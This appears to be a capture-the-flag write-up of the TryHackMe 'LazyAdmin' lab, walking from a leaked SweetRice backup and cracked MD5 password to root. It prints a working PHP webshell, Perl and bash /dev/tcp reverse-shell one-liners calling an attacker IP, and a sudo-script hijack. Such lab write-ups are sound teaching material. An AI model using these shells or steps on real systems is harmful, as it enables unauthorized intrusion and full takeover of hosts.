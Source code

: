 # LazyAdmin — Writeup (inksec.io)
# 🧪 LazyAdmin — Writeup (inksec.io)

**Platform:** Try Hack Me  
**IP:** 10.201.72.17  
**Difficulty:** Easy  
**OS:** Linux  
**Status:** Completed  
**Writeup Path:** /CTF-Writeups/Other/THM/LazyAdmin/README.md  
**Proof Image :** https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/thm_lazyadmin.png

---

## Overview
SweetRice CMS was exposed under `/content/`. An **exposed DB/backup file** inside `/content/inc/` leaked a **manager** password hash. Cracking the MD5 gave `Password123`, which worked at `/content/as/` (admin panel). Using the upload feature, a PHP webshell granted a foothold as `www-data`. Privilege escalation came from a **sudo NOPASSWD** entry on a Perl script `/home/itguy/backup.pl` that executes `/etc/copy.sh`. Overwriting `copy.sh` with a reverse shell and running the allowed Perl script yielded **root**.

**TL;DR chain:** Backup disclosure → MD5 crack → SweetRice admin → File upload → sudo perl → copy.sh abuse → **root**

---

## Enumeration

### Nmap / Rustscan
```bash
export target=10.201.72.17
rustscan --ulimit 5000 -a $target -- -sC -sV -Pn -oN nmap_full
# Open ports
# 22/tcp OpenSSH 7.2p2 (Ubuntu 4ubuntu2.8)
# 80/tcp Apache httpd 2.4.18 (Ubuntu)
```

### Web discovery
```bash
# Top-level
gobuster dir -u http://$target -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 50 -o scans/gb_dirs.txt
# → /content (SweetRice default)

# Under /content
gobuster dir -u http://$target/content/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50 -o scans/gb_dirs2.txt
# → /images /js /inc
```

Identified SweetRice; checked for common disclosures. `/content/inc/` contained a backup/serialized data exposing a manager hash:
```
"Description";s:5:"admin";s:7:"manager";s:6:"passwd";s:32:"42f749ade7f9e195bf475f37a44cafcb";s:5:"close"
```

Crack with John (raw MD5):
```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
# → Password123
```

Optional version hunting:
```bash
searchsploit sweetrice
# SweetRice 1.5.1 Arbitrary File Upload / Backup Disclosure etc.
```

---

## Exploitation

### CMS Admin → Webshell
Login at `/content/as/` with `manager:Password123`. Use the upload feature to place a PHP webshell.

Minimal POST-exec shell used:
```php
<?php
if (!empty($_POST['cmd'])) { $cmd = shell_exec($_POST['cmd']); }
?>
<!doctype html><title>Web Shell</title>
<form method=post>
  <input name=cmd autofocus>
  <button>Exec</button>
</form>
<?php if(isset($cmd)) echo "<pre>".htmlspecialchars($cmd)."</pre>"; ?>
```

Spawn a reverse shell (Perl one-liner):
```bash
perl -e 'use Socket;$i="10.9.0.125";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

Shell established:
```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## Privilege Escalation

Enumerate sudo permissions:
```bash
sudo -l
# Matching Defaults entries for www-data on THM-Chal:
#   env_reset, mail_badpass,
#   secure_path=...
# User www-data may run the following commands on THM-Chal:
#   (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Inspect the scripts:
```bash
cat /home/itguy/backup.pl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");

cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Overwrite `copy.sh` with our reverse shell and trigger:
```bash
echo "bash -c 'bash -i >& /dev/tcp/10.9.0.125/80 0>&1'" | sudo tee /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

Listener output:
```bash
nc -lvnp 80
# connection received
whoami
# root
```

---

## Proofs
```text
user.txt: THM{63e5bce9...REDACTED}
root.txt: THM{6637f41d...REDACTED}
```

---

## Post-Exploitation & Cleanup
- Remove webshells from upload dirs.
- Restore `/etc/copy.sh` if appropriate for the lab or leave as-is if not required.
- Close listeners and disconnect VPN.

---

## Lessons Learned
- Check CMS backup or `inc` folders for credential leaks.
- Weak MD5 hashes are trivial with `rockyou` + John.
- Sudo-maintained scripts often call other files—**edit the downstream target** if writable.

---

## Command Log (raw)
```bash
export target=10.201.72.17
rustscan --ulimit 5000 -a $target -- -sC -sV -Pn -oN nmap_full

gobuster dir -u http://$target -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 50 -o scans/gb_dirs.txt
gobuster dir -u http://$target/content/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50 -o scans/gb_dirs2.txt

searchsploit sweetrice
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5

# PHP webshell upload via SweetRice admin
perl -e 'use Socket;$i="10.9.0.125";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'

sudo -l
echo "bash -c 'bash -i >& /dev/tcp/10.9.0.125/80 0>&1'" | sudo tee /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
nc -lvnp 80
```

---

## Snippet for inksec.io (Completed)
```markdown
🔓 **LazyAdmin** (THM, Easy, Linux) — Backup leak → MD5 crack → SweetRice admin → File upload → sudo perl → copy.sh abuse → **Root**  
🧾 Write-up: /CTF-Writeups/Other/THM/LazyAdmin/README.md  
🖼️ Proof: https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/thm_lazyadmin.png
```

